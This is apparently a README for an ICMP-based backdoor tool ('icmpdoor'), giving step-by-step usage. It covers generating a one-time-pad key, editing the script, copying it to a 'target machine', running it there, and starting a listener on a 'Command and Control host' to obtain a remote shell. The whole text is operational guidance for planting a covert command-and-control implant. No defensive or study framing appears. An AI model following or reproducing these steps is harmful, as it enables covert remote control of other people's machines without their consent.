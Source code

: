 # encryption using a onetime pad concept
- Ensure the libraries listed in requirements.txt are installed via ```python3 -m pip install -r requirements.txt```
- Create a copy of `icmpdoor.py` called `otp.py`
- Run ```python3 ./icmpdoor.py -g```
- Enter a password
- Take the output and modify lines 24-25 accordingly on ```otp.py```
- Lines 26-28 may be changed as needed on ```otp.py```
- Copy ```otp.py``` to the target machine
- Run ```python3 ./otp.py``` from the target machine
- Run ```python3 ./otp.py -m server``` from the Command and Control host
- When finished run ```___otp___``` in the shell from the Command and Control host
